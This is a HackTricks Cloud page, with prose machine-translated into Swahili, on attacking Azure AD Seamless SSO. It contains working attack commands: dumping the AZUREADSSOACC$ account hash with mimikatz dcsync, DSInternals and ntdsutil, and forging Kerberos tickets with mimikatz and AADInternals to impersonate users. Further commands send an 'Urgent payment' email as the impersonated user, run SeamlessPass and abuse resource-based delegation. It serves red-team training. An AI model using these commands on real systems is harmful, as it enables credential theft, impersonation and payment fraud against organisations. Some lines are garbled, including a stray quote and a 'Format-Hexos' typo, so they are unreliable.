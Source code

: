 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) kiotomatiki **inasaini watumiaji wanapokuwa kwenye vifaa vyao vya kampuni** vilivyounganishwa na mtandao wa kampuni yako. Wakati umewezeshwa, **watumiaji hawahitaji kuandika nywila zao kuingia kwenye Azure AD**, na kawaida, hata kuandika majina yao ya mtumiaji. Kipengele hiki kinawapa watumiaji wako ufikiaji rahisi wa programu zako za msingi wa wingu bila kuhitaji vipengele vyovyote vya ziada vya kwenye tovuti.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Kimsingi Azure AD Seamless SSO **inasaini watumiaji** wanapokuwa **kwenye PC iliyounganishwa na kikoa cha ndani**.

Inasaidiwa na [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) na [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO inatumia **Kerberos** kwa uthibitisho. Wakati imewekwa, Azure AD Connect inaunda **akaunti ya kompyuta inayoitwa AZUREADSSOACC`$`** kwenye AD ya ndani. Nywila ya akaunti ya `AZUREADSSOACC$` **inatumwa kama maandiko wazi kwa Azure AD** wakati wa usanidi.

**Tiketi za Kerberos** **zimefungwa** kwa kutumia **NTHash (MD4)** ya nywila na Azure AD inatumia nywila iliyotumwa kufungua tiketi hizo.

**Azure AD** inatoa **kiungo** (https://autologon.microsoftazuread-sso.com) ambacho kinakubali **tiketi** za Kerberos. Kivinjari cha mashine iliyounganishwa na kikoa kinapeleka tiketi hizi kwa kiungo hiki kwa SSO.

### On-prem -> cloud

**Nywila** ya mtumiaji **`AZUREADSSOACC$` haitabadilika kamwe**. Hivyo, msimamizi wa kikoa anaweza kuathiri **hash ya akaunti hii**, na kisha kuitumia **kuunda tiketi za fedha** kuungana na Azure na **mtumiaji yeyote wa ndani aliyeunganishwa**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Na hash unaweza sasa **kuunda tiketi za fedha**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **Kanzisha kivinjari:** Mozilla Firefox inapaswa kuzinduliwa.
2. **Sanidi kivinjari:**
* Tembelea **`about:config`**.
* Weka upendeleo wa [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) kwa [thamani](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) zilizotajwa:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Fikia Programu ya Mtandao:**
* Tembelea programu ya mtandao ambayo imeunganishwa na eneo la AAD la shirika. Mfano maarufu ni [Office 365](https://portal.office.com/).
4. **Mchakato wa Uthibitishaji:**
* Katika skrini ya kuingia, jina la mtumiaji linapaswa kuingizwa, huku uwanja wa nywila ukiwa tupu.
* Ili kuendelea, bonyeza TAB au ENTER.

{% hint style="success" %}
Hii haipuuzi MFA ikiwa imewezeshwa
{% endhint %}

#### Chaguo la 2 bila dcsync - SeamlessPass

Pia inawezekana kufanya shambulio hili **bila shambulio la dcsync** ili kuwa na siri zaidi kama [ilivyoelezwa katika chapisho hili la blog](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Kwa hiyo unahitaji tu moja ya yafuatayo:

* **TGT ya mtumiaji aliyeathiriwa:** Hata kama huna moja lakini mtumiaji ameathiriwa, unaweza kupata moja kwa kutumia hila ya uwakilishi wa TGT bandia iliyotekelezwa katika zana nyingi kama [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) na [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Tiketi ya Dhahabu**: Ikiwa una funguo ya KRBTGT, unaweza kuunda TGT unayohitaji kwa mtumiaji aliyeathiriwa.
* **Hash ya NTLM ya mtumiaji aliyeathiriwa au funguo ya AES:** SeamlessPass itawasiliana na kidhibiti cha eneo na habari hii ili kuunda TGT.
* **Hash ya NTLM ya akaunti ya AZUREADSSOACC$ au funguo ya AES:** Kwa habari hii na Kitambulisho cha Usalama (SID) cha mtumiaji unayeshambulia, inawezekana kuunda tiketi ya huduma na kuthibitisha na wingu (kama ilivyofanywa katika njia ya awali).

Hatimaye, kwa TGT inawezekana kutumia zana [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) na:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Taarifa zaidi za kuweka Firefox kufanya kazi na seamless SSO zinaweza [**kupatikana katika chapisho hili la blog**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Kuunda tiketi za Kerberos kwa watumiaji wa wingu pekee~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Ikiwa wasimamizi wa Active Directory wana ufikiaji wa Azure AD Connect, wanaweza **kweka SID kwa mtumiaji yeyote wa wingu**. Kwa njia hii, tiketi za Kerberos **zinaweza kuundwa pia kwa watumiaji wa wingu pekee**. Sharti pekee ni kwamba SID iwe [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) sahihi.

{% hint style="danger" %}
Kubadilisha SID ya watumiaji wa admin wa wingu pekee sasa **kumezuiwa na Microsoft**.\
Kwa maelezo zaidi angalia [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Wingu kupitia Uwakilishi wa Rasilimali ulio na Mipaka <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Mtu yeyote anayeweza kusimamia akaunti za kompyuta (`AZUREADSSOACC$`) katika kontena au OU ambayo akaunti hii iko ndani yake, anaweza **kuweka uwakilishi wa rasilimali ulio na mipaka juu ya akaunti na kuufikia**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Niko kwenye wingu lako, nikiangalia barua pepe za kila mtu - kuingia Azure AD kupitia Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

